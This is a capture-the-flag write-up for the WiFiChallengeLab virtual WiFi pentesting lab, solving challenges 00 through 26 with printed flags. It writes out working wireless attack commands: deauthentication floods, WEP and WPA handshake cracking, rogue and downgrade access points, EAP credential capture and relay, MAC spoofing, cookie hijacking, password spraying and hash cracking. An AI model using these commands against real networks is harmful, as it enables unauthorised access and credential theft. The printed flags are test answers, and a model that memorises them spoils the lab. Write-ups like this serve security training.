




# WiFiChallengeLab

**Website :** [https://wifichallengelab.com/](https://wifichallengelab.com/)


**Description :** WiFiChallenge Lab is a virtualized WiFi pentesting laboratory without the need for physical WiFi cards, using mac80211_hwsim and Docker.

## **00. What is the contents of the file /root/flag.txt on the VM?**

**Challenge Description :** What is the content of the file /root/flag.txt on the VM?

### Approach

```shell
sudo su
cat /root/flag.txt
flag{JPTEXm5yEaYouyIEFffEvPjil}
```

**Flag :** `flag{JPTEXm5yEaYouyIEFffEvPjil}`

## **01. What is the channel that the wifi-global Access Point is currently using?**

**Challenge Description :** What is the channel that the wifi-global Access Point (AP) is currently using?

### Approach

```shell
sudo airmon-ng start wlan1
sudo airodump-ng wlan1mon -w scanchall01 --band abg
```


**Flag :** `44`

## **02. What is the MAC of the wifi-IT client?**

**Challenge Description :** What is the MAC of the wifi-IT client?

### Approach

```shell
sudo airodump-ng wlan0mon -w scanchall03 --manufacturer --wps -c 11
```


**Flag :** `10:F9:6F:AC:53:52`

## **03. What is the probe of 78:C1:A7:BF:72:46?**

**Challenge Description :** What is the probe of `78:C1:A7:BF:72:46` that follows the format of the other networks in the range (wifi-)?

### Approach

```shell
sudo airodump-ng wlan0mon -w scanchall03 --manufacturer --wps --band abg                              
```


**Flag :** `wifi-offices`

## **04. What is the ESSID of the hidden AP (mac F0:9F:C2:6A:88:26)?**

**Challenge Description :** What is the ESSID of the hidden AP (mac F0:9F:C2:6A:88:26)?

### Approach

```shell
sudo airodump-ng wlan0mon -w scanchall04 --manufacturer --wps --band abg                           
```


I can't see the ESSID field.

I can test to find hidden ESSID with airodump-ng and aireplay-ng but in this case there are no clients. 

```shell
sudo airodump-ng wlan0mon -w scanchall04 --manufacturer --wps --band abg -c 11
sudo aireplay-ng -0 3 -a F0:9F:C2:6A:88:26 wlan0mon
```


So I can use mdk4 for find it with brute force:

```shell
mdk4 wlan0mon -t F0:9F:C2:6A:88:26 -r 11 -f /root/rockyou-top100000.txt
```

But this brute force doesn't work because works are not prefixed by `wfi-`. I have to add this prefix for each line with `sed -e 's/^/wifi-/' /root/rockyou-top100000.txt > wifirockyou.txt`


**Flag :** `wifi-free`

## **05. What is the flag in the hidden AP router behind default credentials?**

**Challenge Description :** What is the flag in the hidden AP router behind default credentials?

### Approach

I know the ESSID of the hidden AP (`wifi-free`). I can initiate connection with graphical interface:


After, I have to know my network an analyse it:


Now I can try to login with `admin:admin` credentials to AP web interface and catch flag:


I'm also able to initiate wifi connection with terminal commands:

```shell
nano wifi-free.conf
```

Put configuration in:

```shell
network={
	ssid="wifi-free"
	key_mgmt=NONE
	scan_ssid=1
}
```

Connection to WiFi:
```shell
wpa_supplicant -D nl80211 -i wlan0 -c wifi-free.conf
dhclient wlan0 -v
```


**Flag :** `flag{W5ri9DXRJZCTBpFFxXBM}`

## **06. What is the flag on the AP router of the wifi-guest network?**

**Challenge Description :** What is the flag on the AP router of the wifi-guest network?

### Approach

I can try a connection to `wifi-guest`:

```shell
nano wifi-guest.conf
```

Put configuration in:

```shell
network={
	ssid="wifi-guest"
	key_mgmt=NONE
	scan_ssid=1
}
```

Connection to WiFi:
```shell
wpa_supplicant -D nl80211 -i wlan1 -c wifi-guest.conf
dhclient wlan1 -v
```


When I'm trying to connect to `192.168.10.1`:


The connection is filtred by MAC, I have to find it and spoof it:

```shell
sudo airodump-ng wlan1 -w scanchall06 -c 6 
```


```shell
sudo systemctl stop network-manager
sudo ip link set wlan1 down
sudo macchanger -m B0:72:BF:44:B0:49 wlan1
sudo ip link set wlan1 up
sudo wpa_supplicant -D nl80211 -i wlan1 -c wifi-guest.conf
sudo dhclient wlan1 -v 
```

I have access to the interface but the password changed, I can inspect network traffic to find http data and plaintext password:


**Flag :** `flag{2VphtQyGxsHmRoxGV05a}`

## **07. Get wifi-old password**

**Challenge Description :**  Get wifi-old password. 

### Approach

Target identification:

```shell
sudo airodump-ng wlan0mon --encrypt WEP
```


Precise capture filters:

```shell
sudo airodump-ng wlan0mon -w scanchall07 --encrypt WEP -c 1 --bssid F0:9F:C2:AA:19:29
```


In parallel, I need data (IV) to decrypt password, I can use airepley-ng:

```shell
sudo aireplay-ng wlan0mon --arpreplay -b F0:9F:C2:AA:19:29 -h DE:B9:68:68:C9:EC
```


And I also need to deauth client during this process:

```shell
sudo aireplay-ng wlan0mon --deauth 0 -a F0:9F:C2:AA:19:29 -c DE:B9:68:68:C9:EC
```


Now, I can run `aircrack-ng` to decrypt password with around 15k data:

```shell
sudo aircrack-ng scanchall07-01.cap
```



Also `besside-ng` can do this automaticaly:

```shell
besside-ng -c 1 -b F0:9F:C2:AA:19:29 wlan0mon -v
```


**Flag :** `11:BB:33:CD:55`

## **08. What is the wifi-mobile AP password?**

**Challenge Description :**  What is the wifi-mobile AP password?

### Approach

Identify `wifi-mobile` AP:

```shell
sudo airodump-ng wlan0mon
```


Precise capture filters:

```shell
sudo airodump-ng wlan0mon -w scanchall08 -c 6 --bssid F0:9F:C2:71:22:12
```

I need to capture `WPA handshake`, to obtain it, I can `deauth` client:

```shell
sudo aireplay-ng wlan0mon --deauth 0 -a F0:9F:C2:71:22:12 -c 28:6C:07:6F:F9:44
```


Now I can decrypt password:

```shell
sudo aircrack-ng -e wifi-mobile -w ../rockyou-top100000.txt scanchall08-02.cap
```


**Flag :** `starwars1`

## **09. What is the IP of the web server in the wifi-mobile network?**

**Challenge Description :**  What is the IP of the web server in the wifi-mobile network?
### Approach

I have to initiate `wifi-mobile` AP connection:

```shell
sudo wpa_passphrase wifi-mobile starwars1 | sudo tee wifi-mobile.conf
network={
	ssid="wifi-mobile"
	#psk="starwars1"
	psk=a0126541ea6ce1011e1dc4d9e5a3877e775366f81bf49b3bdca50c015a47252c
}
sudo wpa_supplicant -D nl80211 -i wlan1 -c wifi-mobile.conf
```

```shell
dhclient wlan1 -v
```


**Flag :**  `192.168.2.1`

## **10. what is the flag after login in wifi-mobile?**

**Challenge Description :**  What is the flag after login in wifi-mobile? Get wifi-mobile users traffic passively (802.11), decrypt and login with stolen cookies to wifi-mobile's AP router to get user FLAG.

### Approach

If I open `scanchall08-02.cap` (captured in challenge 08), all network data transfer is encrypted:


I can decrypt it with following method:

```shell
sudo airdecap-ng -e wifi-mobile -p starwars1 scanchall08-02.cap
```


Now when I open wireshark file:


I can looking for cookie:


```shell
curl -H 'Cookie: PHPSESSID=g5n388beud3hdh6j9vu6psu5pn' http://192.168.2.1/

Welcome test2<br><br><br><br>flag{feL9kV3oMemAJiEDQLBA}<br><br><br><br>
Congratulation! You have logged into password protected page. <a href="logout.php">Click here</a> to Logout.
```

**Flag :**  `flag{feL9kV3oMemAJiEDQLBA}`

## **11. Is there client isolation in the wifi-mobile network?**

**Challenge Description :**  Is there client isolation in the wifi-mobile network? Get flag from the other user's web server.

### Approach

```shell
root@WiFiChallengeLab:~/CHALLS# ip a show wlan1
75: wlan1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether b0:72:bf:44:b0:49 brd ff:ff:ff:ff:ff:ff
    inet 192.168.2.14/24 brd 192.168.2.255 scope global dynamic wlan1
       valid_lft 86387sec preferred_lft 86387sec
root@WiFiChallengeLab:~/CHALLS# nmap -n 192.168.2.1/24
Starting Nmap 7.80 ( https://nmap.org ) at 2024-01-24 17:40 UTC
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Nmap scan report for 192.168.2.1
Host is up (0.000021s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
8080/tcp open  http-proxy
MAC Address: F0:9F:C2:71:22:12 (Ubiquiti Networks)

Nmap scan report for 192.168.2.7
Host is up (0.000035s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 28:6C:07:6F:F9:44 (Xiaomi Electronics,co.)

Nmap scan report for 192.168.2.8
Host is up (0.000035s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 28:6C:07:6F:F9:44 (Xiaomi Electronics,co.)

Nmap scan report for 192.168.2.14
Host is up (0.0000030s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
3389/tcp open  ms-wbt-server

Nmap done: 256 IP addresses (4 hosts up) scanned in 2.43 seconds
```

OR:

```shell
arp-scan --localnet -I wlan1
Interface: wlan1, type: EN10MB, MAC: b0:72:bf:44:b0:49, IPv4: 192.168.2.14
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.2.1	f0:9f:c2:71:22:12	Ubiquiti Networks Inc.
192.168.2.7	28:6c:07:6f:f9:43	XIAOMI Electronics,CO.,LTD
192.168.2.7	28:6c:07:6f:f9:44	XIAOMI Electronics,CO.,LTD (DUP: 2)
192.168.2.8	28:6c:07:6f:f9:43	XIAOMI Electronics,CO.,LTD
192.168.2.8	28:6c:07:6f:f9:44	XIAOMI Electronics,CO.,LTD (DUP: 2)

5 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 2.026 seconds (126.36 hosts/sec). 5 responded
```

```shell
curl http://192.168.2.7
flag{QvD1ervLa4EwVh81Tfm0}
```

**Flag :**  `flag{QvD1ervLa4EwVh81Tfm0}`

## **12. What is the wifi-offices password?**

**Challenge Description :**  What is the wifi-offices password?

### Approach

I have to fake `wifi-offices` AP to intercept handshakes:

Create AP configuration:
```shell
interface=wlan1
driver=nl80211
hw_mode=g
channel=1
ssid=wifi-offices
mana_wpaout=wifi-offices.hccapx
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=12345678
```

```shell
sudo hostpad-mana wifi-offices.conf
Configuration file: wifi-offices.conf
MANA: Captured WPA/2 handshakes will be written to file 'hostapd.hccapx'.
Using interface wlan1 with hwaddr 02:00:00:00:01:00 and ssid "wifi-offices"
wlan1: interface state UNINITIALIZED->ENABLED
wlan1: AP-ENABLED 
wlan1: STA b4:99:ba:6f:f9:45 IEEE 802.11: authenticated
wlan1: STA b4:99:ba:6f:f9:45 IEEE 802.11: associated (aid 1)
MANA: Captured a WPA/2 handshake from: b4:99:ba:6f:f9:45
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH b4:99:ba:6f:f9:45
wlan1: STA 78:c1:a7:bf:72:46 IEEE 802.11: authenticated
wlan1: STA 78:c1:a7:bf:72:46 IEEE 802.11: associated (aid 2)
MANA: Captured a WPA/2 handshake from: 78:c1:a7:bf:72:46
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH 78:c1:a7:bf:72:46
MANA: Captured a WPA/2 handshake from: b4:99:ba:6f:f9:45
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH b4:99:ba:6f:f9:45
MANA: Captured a WPA/2 handshake from: 78:c1:a7:bf:72:46
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH 78:c1:a7:bf:72:46
MANA: Captured a WPA/2 handshake from: b4:99:ba:6f:f9:45
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH b4:99:ba:6f:f9:45
MANA: Captured a WPA/2 handshake from: 78:c1:a7:bf:72:46
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH 78:c1:a7:bf:72:46
MANA: Captured a WPA/2 handshake from: b4:99:ba:6f:f9:45
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH b4:99:ba:6f:f9:45
MANA: Captured a WPA/2 handshake from: 78:c1:a7:bf:72:46
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH 78:c1:a7:bf:72:46
wlan1: STA b4:99:ba:6f:f9:45 IEEE 802.11: deauthenticated due to local deauth request
wlan1: STA 78:c1:a7:bf:72:46 IEEE 802.11: deauthenticated due to local deauth request
```

I can try to decrypt with `hashcat`:

```shell
sudo hashcat -a 0 -m 2500 wifi-offices.hccapx rockyou-top100000.txt 
hashcat (v5.1.0) starting...

* Device #1: Not a native Intel OpenCL runtime. Expect massive speed loss.
             You can use --force to override, but do not report related errors.
No devices found/left.

Started: Thu Jan 25 08:52:32 2024
Stopped: Thu Jan 25 08:52:32 2024
```

But it didn't work, I have to convert the hash from 2500 to 22000:

```shell
sudo hcxhash2cap --hccapx=wifi-offices.hccapx -c wifi-offices.pcap
sudo hcxpcapngtool wifi-office.pcap -o hash.22000
```

Now I able to crack password with hashcat:

```shell
sudo hashcat -a 0 -m 22000 hash.22000 rockyou-top100000.txt --force
...
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

c06b7d24d662f61e6d9efc09c301227c:020000000100:b499ba6ff945:wifi-offices:password1
cc762fab136057e540a38ff4b035777b:020000000100:78c1a7bf7246:wifi-offices:password1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 22000 (WPA-PBKDF2-PMKID+EAPOL)
Hash.Target......: hash.22000
...
```

**Flag :**  `password1`

## **13. What is the wifi-management password?**

**Challenge Description :**  What is the wifi-management password? Use Brute force to get the AP password.

### Approach

Manage `wifi-management` informations:


Use https://github.com/blunderbuss-wctf/wacker (WPA3 dictionnary cracker):

```shell
sudo iwlist wlan1 scan|grep Frequency
Frequency:2.462 GHz (Channel 11)
...
```



**Flag :**  `chocolate1`

## **14. What is the wifi-IT password?**

**Challenge Description :**  What is the wifi-IT password? Downgrade WPA3 to WPA2.

### Approach

I have to find how I can downgrade WP3 to WP2.

I can use `hostapd-mana` to create downgraded AP:

```shell
interface=wlan1
driver=nl80211
hw_mode=g
channel=11
ssid=wifi-IT
mana_wpaout=wifi-IT.hccapx
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=12345678
```

```shell
sudo hostapd wifi-IT.conf 
Configuration file: wifi-IT.conf
MANA: Captured WPA/2 handshakes will be written to file 'wifi-IT.hccapx'.
Using interface wlan1 with hwaddr 02:00:00:00:01:00 and ssid "wifi-IT"
wlan1: interface state UNINITIALIZED->ENABLED
wlan1: AP-ENABLED
```

WiFi is enabled but no clients connect. I can deauth already connected client:


```shell
sudo aireplay-ng -deauth 0 -a F0:9F:C2:1A:CA:25 -c 10:F9:6F:AC:53:52
```

I receive what I want:


I can decrypt password:

```shell
sudo hashcat -a 0 -m 2500 wifi-IT.hccapx ../rockyou-top100000.txt --force
hashcat (v5.1.0) starting...
...
d9d81ec257cc8329b29b58fe06f376d8:020000000100:10f96fac5352:wifi-IT:bubblegum
ea28f9d2e44347ca880d2ff37762c9e1:020000000100:10f96fac5352:wifi-IT:bubblegum
aba05c62206f1913fc9f4c4988338309:020000000100:10f96fac5352:wifi-IT:bubblegum
72c884d217bd8a8f3c173d30a0dd7f2f:020000000100:10f96fac5352:wifi-IT:bubblegum

Session..........: hashcat
Status...........: Cracked
Hash.Type........: WPA-EAPOL-PBKDF2
Hash.Target......: wifi-IT.hccapx
...
```

**Flag :**  `bubblegum`

## **15. What is the domain of the users of the wifi-regional network?**

**Challenge Description :**  What is the domain of the users of the wifi-regional network?

### Approach

Find `wifi-regional` AP:


Precise capture:

```shell
sudo airodump-ng wlan0mon -w scanchall15 -c 44 --band abg
```

I can analyse `.cap` file to find domain user:


**Flag :**  `CONTOSOREG`

## **16. What is the email address of the server certificate?**

**Challenge Description :**  What is the email address of the server certificate?

### Approach

I can use pcapFilter tool to find certificate email:

```shell
../tools/pcapFilter.sh -f scanchall15-01.cap -C

FILE: scanchall15-01.cap
Running as user "root" and group "root". This could be dangerous.
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number: 2 (0x2)
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: C = ES, ST = Madrid, L = Madrid, O = WiFiChallengeLab, OU = Certificate Authority, CN = WiFiChallengeLab CA, emailAddress = ca@WiFiChallengeLab.com
        Validity
            Not Before: Feb 19 17:49:46 2023 GMT
            Not After : Feb 18 17:49:46 2025 GMT
        Subject: C = ES, L = Madrid, O = WiFiChallengeLab, OU = Server, CN = WiFiChallengeLab CA, emailAddress = server@WiFiChallengeLab.com
```

**Flag :**  `server@WiFiChallengeLab.com`

## **17. What is the EAP method supported by the wifi-global AP?**

**Challenge Description :**  What is the EAP method supported by the wifi-global AP?

### Approach

Find `wifi-global` ESSID:


I can use the tool `EAP_buster` to find supported EAP method:

```shell
sudo ./EAP_buster.sh wifi-global F0:9F:C2:71:22:17 wlan1
```

**Flag :**  `EAP_TLS`

## **18. What is juan's wifi-corp password?**

**Challenge Description :**  What is juan's wifi-corp password?

### Approach

Find `wifi-corp` AP:



Use `eaphammer` to capture creds:

```shell
sudo ./eaphammer --cert-wiazrd
sudo ./eaphammer -i wlan1 --auth wpa-eap --essid wifi-corp --creds --negotiate balanced
```

In parallel, I have to deauth clients on all AP (2 in this case):

```shell
sudo aireplay-ng wlan0mon -0 0 -a F0:9F:C2:71:22:1A -c 64:32:A8:07:6C:40
sudo aireplay-ng wlan0mon -0 0 -a F0:9F:C2:71:22:15 -c 64:32:A8:07:6C:40
```

To receive all of this juicy informations:


I can decrypt password using `hashcat`:

```shell 
echo "juan.tr::::23681ce420b2a8bb32fd51e679ba2db6d051b32291ce9b18:20041fa79eb51a80" > hashchall18
```

```shell
sudo hashcat -a 0 -m 5500 hashchall18 ../rockyou-top100000.txt --force
...
juan.tr::::23681ce420b2a8bb32fd51e679ba2db6d051b32291ce9b18:20041fa79eb51a80:bulldogs1234   
Session..........: hashcat
Status...........: Cracked
Hash.Type........: NetNTLMv1 / NetNTLMv1+ESS
Hash.Target......: juan.tr::::23681ce420b2a8bb32fd51e679ba2db6d051b322...b51a80
Time.Started.....: Thu Jan 25 18:58:38 2024 (0 secs)
Time.Estimated...: Thu Jan 25 18:58:38 2024 (0 secs)
Guess.Base.......: File (../rockyou-top100000.txt)
...
```

**Flag :**  `bulldogs1234`

## **19. What is `CONTOSO\test` password in wifi-corp?**

**Challenge Description :**  What is `CONTOSO\test` password in wifi-corp?

### Approach

Find `wifi-corp` AP:


Use `air-hammer` to brute force user:

```shell
echo "CONTOSO\test" > user.txt
sudo ./air-hammer.py -i wlan1 -e wifi-corp -u user.txt -p ../../rockyou-top100000.txt -1
```


**Flag :**  `monkey`

## **20. Which is the user (with domain) with password 12345678 in wifi-corp?**

**Challenge Description :**  Which is the user (with domain) with password 12345678 in wifi-corp? Use top-usernames-shortlist.txt in /root/

### Approach

`air-hammer` allow me to do password spraying:

I have to modify user list to add `CONTOSO\` in prefix of each users:

```shell
sed -e 's/^/CONTOSO\\/' /root/top-usernames-shortlist.txt > corpuser.txt
```

```shell
sudo ./air-hammer.py -i wlan1 -e wifi-corp -u corpuser.txt -P 12345678 -1
```


**Flag :**  `CONTOSO\ftp`

## **21. What is the flag on the wifi-regional-tablets AP?**

**Challenge Description :**  What is the flag on the wifi-regional-tablets AP?

### Approach

```shell
systemctl stop network-manager
airmon-ng stop wlanmon
ip link set wlan1 down
macchanger -m F0:9F:C2:00:00:00 wlan1
ip link set wlan1 up
```

```shell
echo '
network={
  ssid="wifi-regional-tablets"
  ## The SSID you would like to relay and authenticate against. 
  scan_ssid=1
  key_mgmt=WPA-EAP
  ## Do not modify
  identity=""
  anonymous_identity=""
  password=""
  ## This initialises the variables for me.
  ## -------------
  eap=PEAP
  phase1="crypto_binding=0 peaplabel=0"
  phase2="auth=MSCHAPV2"
  ## Dont want to connect back to ourselves,
  ## so add your rogue BSSID here.
  bssid_blacklist=F0:9F:C2:00:00:00
}
' > ~/tools/wpa_sycophant/wpa_sycophant_example.conf
```

`berate_ap` is similar to `eaphammer`:

```shell
cd ~/tools/berate_ap/
./berate_ap --eap --mana-wpe --wpa-sycophant --mana-credout outputMana.log wlan1 lo wifi-regional-tablets
```

In parallel, I make a deauthentication attack on customers:
```shell
iwconfig wlan0mon channel 44
aireplay-ng -0 0 wlan0mon -a F0:9F:C2:7A:33:28 -c 64:32:A8:A9:DE:55
```

In other parallel, I wait for the client to connect to “berate_ap” and “wpa_sycophant” can reuse the information to connect to the real AP:

```shell
cd ~/tools/wpa_sycophant/
./wpa_sycophant.sh -c wpa_sycophant_example.conf -i wlan3
```



I am connected and I can use `dhclient`:

```shell
dhclient wlan3 -v 
```


**Flag :**  `flag{gsnyT98GxngXgMPJEIKw}`

## **22. What is the flag on the wifi-regional AP?**

**Challenge Description :**  What is the flag on the wifi-regional AP?

### Approach

This challenge can be resolved by following the same method than previous exercice.

```shell
systemctl stop network-manager
airmon-ng stop wlan1mon
ip link set wlan1 down
macchanger -m F0:9F:C2:00:00:00 wlan1
ip link set wlan1 up
```

I do little modyfication in the following file:

```shell
echo '
network={
  ssid="wifi-regional"
  ## The SSID you would like to relay and authenticate against. 
  scan_ssid=1
  key_mgmt=WPA-EAP
  ## Do not modify
  identity=""
  anonymous_identity=""
  password=""
  ## This initialises the variables for me.
  ## -------------
  eap=PEAP
  phase1="crypto_binding=0 peaplabel=0"
  phase2="auth=MSCHAPV2"
  ## Dont want to connect back to ourselves,
  ## so add your rogue BSSID here.
  bssid_blacklist=F0:9F:C2:00:00:00
}
' > ~/tools/wpa_sycophant/wpa_sycophant_example.conf
```

```shell
cd ~/tools/berate_ap/
./berate_ap --eap --mana-wpe --wpa-sycophant --mana-credout outputMana.log wlan2 lo wifi-regional-tablets
```

In parallel:

```shell
airmon-ng start wlan1
iwconfig wlan1mon channel 44
aireplay-ng -0 0 wlan1mon -a F0:9F:C2:7A:33:28 -c 64:32:A8:A9:DE:55
```

In third shell:

```shell
cd ~/tools/wpa_sycophant/
./wpa_sycophant.sh -c wpa_sycophant_example.conf -i wlan3
```


**Flag :**  `flag{NBLvyxgwckKnyGup6HNj}`

## **23. What is the password of the user vulnerable to RogueAP of wifi-global?**

**Challenge Description :**  What is the password of the user vulnerable to RogueAP of wifi-global?

### Approach

When AP is unattackable, attack clients.

```shell
cd ~/tools/eaphammer
sudo killall dnsmasq
sudo ./eaphammer --bssid 1C:7E:E5:97:79:B1 --essid WiFi-Restaurant --interface wlan4 --captive-portal
```

In parallel:

```shell
sudo iwconfig wlan0mon channel 44
sudo aireplay-ng -0 0 wlan0mon -a F0:9F:C2:71:22:17 -c 64:32:A8:BC:53:51
```

And bingo !


credentials `CORPO\god:tommy1`

With responder:

```shell
cd ~/tools/eaphammer
sudo killall dnsmasq
./eaphammer --bssid 1C:7E:E5:97:79:B1 --essid WiFi-Restaurant --interface wlan2 --hostile-portal
```

```shell
sudo iwconfig wlan0mon channel 44
sudo aireplay-ng -0 0 wlan0mon -a F0:9F:C2:71:22:17 -c 64:32:A8:BC:53:51
```


I have to crack hash:

```shell
cat logs/Responder-Session.log  | grep NTLMv2 | grep Hash | awk '{print $9}' > responder.5600
sudo hashcat -a 0 -m 5600 responder.5600 ~/rockyou-top100000.txt  --force
...
Dictionary cache hit:
* Filename..: /root/rockyou-top100000.txt
* Passwords.: 1000000
* Bytes.....: 8583863
* Keyspace..: 1000000
...
GOD::CORPO:02a3217d5048d448:4fbd6fb9b6bf785153daf2c2351f8a93:01010000000000000094a02aed54da01394966786977694e0000000002000800530039005100410001001e00570049004e002d00430046003200450053004c004d00470052005000340004003400570049004e002d00430046003200450053004c004d0047005200500034002e0053003900510041002e004c004f00430041004c000300140053003900510041002e004c004f00430041004c000500140053003900510041002e004c004f00430041004c00070008000094a02aed54da010900280063006900660073002f00570049004e002d00430046003200450053004c004d0047005200500034000000000000000000:tommy1
...
```

**Flag :**  `tommy1`

## **24. What is the flag after login in wifi-regional with the credentials obtained?**

**Challenge Description :**  What is the flag after login in wifi-regional with the credentials obtained in the previous step?

### Approach

I can use challenge 22 methodology to initiate connection to `wifi-regional` and enter `CORPO\god:tommy1` credentials in router:


I can DL CA certificates :


```shell
wget -A txt -m -p -E -k -K -np  http://192.168.7.1/.internalCA
```

**Flag :**  `flag{3v1GXNkW0dh3T57ppoP1}`

## **25. What is the password of the wifi-corp Administrator?**

**Challenge Description :**  What is the password of the wifi-corp Administrator?

### Approach

I remove all `.txt`:

```shell
mv server.key.txt server.key
mv ca.serial.txt ca.serial
mv ca.crt.txt ca.crt
mv ca.key.txt ca.key
mv server.crt.txt server.crt
mv client.conf.txt client.conf
mv client.ext.txt client.ext
```

I use the tool `eaphammer` to import certificate:

```shell
cd /root/tools/eaphammer
python3 ./eaphammer --cert-wizard import --server-cert /root/CHALLS/CA/internalCA/server.crt --ca-cert /root/CHALLS/CA/internalCA/ca.crt --private-key /root/CHALLS/CA/internalCA/server.key --private-key-passwd secret
```


After:

```shell
python3 ./eaphammer -i wlan4 --auth wpa-eap --essid wifi-corp --creds --negotiate balanced
```

In parallel:

```shell
iwconfig wlan0mon channel 44
aireplay-ng -0 0 -a F0:9F:C2:71:22:1A wlan0mon -c 64:32:A8:BA:6C:41
```

In third shell:

```shell
airmon-ng start wlan1
iwconfig wlan1mon channel 44
aireplay-ng -0 0 -a F0:9F:C2:71:22:15 wlan1mon -c 64:32:A8:BA:6C:41
```

I take the password:


**Flag :**  `SuperSecure@!@`

## **26. What is the flag found on the wifi-global AP?**

**Challenge Description :**  What is the flag found on the wifi-global AP?

### Approach

With this private CA, I can create public cert:

```shell
openssl genrsa -out client.key 2048
openssl req -config client.conf -new -key client.key -out client.csr
openssl x509 -days 730 -extfile client.ext -CA ca.crt -CAkey ca.key -CAserial ca.serial -in client.csr -req -out client.crt
```

I create `wifi-global` configuration file:

```shell
echo 'network={
 ssid="wifi-global"
 scan_ssid=1
 mode=0
 proto=RSN
